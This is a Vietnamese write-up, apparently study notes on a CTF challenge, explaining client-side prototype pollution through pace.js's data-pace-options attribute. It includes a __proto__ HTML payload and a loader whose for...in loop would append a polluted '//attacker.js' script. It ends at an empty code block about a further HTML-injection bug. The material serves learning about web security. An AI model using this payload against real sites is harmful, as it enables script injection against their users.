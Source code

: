 Và mình sẽ có thể **OBJECT PROTOTYPE** bất kì biến nào chỉ với : 
```html=
  <img id="data-pace-options" data-pace-options='{"__proto__": {"polluted": "YOU ARE POLLUTED!"}}'>
```
- Đến đây thì ý tưởng của bài write up là Object prototype một biến bất kì có giá trị bằng một script source của attacker . Mục đích chính là pollute biến **script** trong loader.js 
```js
scripts = {
    "pace": "https://cdn.jsdelivr.net/npm/pace-js@latest/pace.min.js",
    "main": "/main.js",
}

function appendScript(src) {
    let script = document.createElement('script');
    script.src = src;
    document.head.appendChild(script);
};

// This will loop through our "polluted" : "//attacker.js"
for (let script in scripts) {
    appendScript(scripts[script]);
}
```
- Đọc đến đây mình thấy khá bất ngờ khi object prototype có thể ảnh hưởng đến cả loop for in ? 
- Test thử thì mình thấy quả thật vậy;
```js
scripts = {
    "pace": "https://cdn.jsdelivr.net/npm/pace-js@latest/pace.min.js",
    "main": "/main.js",
}

Object.prototype.polluted = "FUCKED"
console.log("Just log it out : ", scripts)

for (let script in scripts) {
    console.log("[" + script + "] => " + scripts[script])
}

/*OUTPUT : 
Just log it out :  {
  pace: 'https://cdn.jsdelivr.net/npm/pace-js@latest/pace.min.js',
  main: '/main.js'
}
[pace] => https://cdn.jsdelivr.net/npm/pace-js@latest/pace.min.js
[main] => /main.js
[polluted] => FUCKED
*/
```
Hmmmm, nhìn rất lạ nhỉ .
![image](https://hackmd.io/_uploads/rkl90FBVge.png)

Sau khi đọc docs thì mình thấy for in sẽ loop qua những enumerables của chính nó và cả những enumerables của Object.prototype ~~
- Thông tin chi tiết về thế nào là enumberables chúng ta có thể xem ở đây : 
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Enumerability_and_ownership_of_properties
Và các hàm để kiểm tra enumrables hay không : 
![image](https://hackmd.io/_uploads/SJbg1crExx.png)
Ta có thể thấy hàm in khi này sẽ xem Enumrable + inherited là true và chính vì thế script của mình sẽ bị polluted khi for in qua.
# Vấn đề cuối cùng
- Đọc write up thì mình thấy có vẻ còn một bug ở trong pace js để có thể chèn html injection nữa : 
```js
```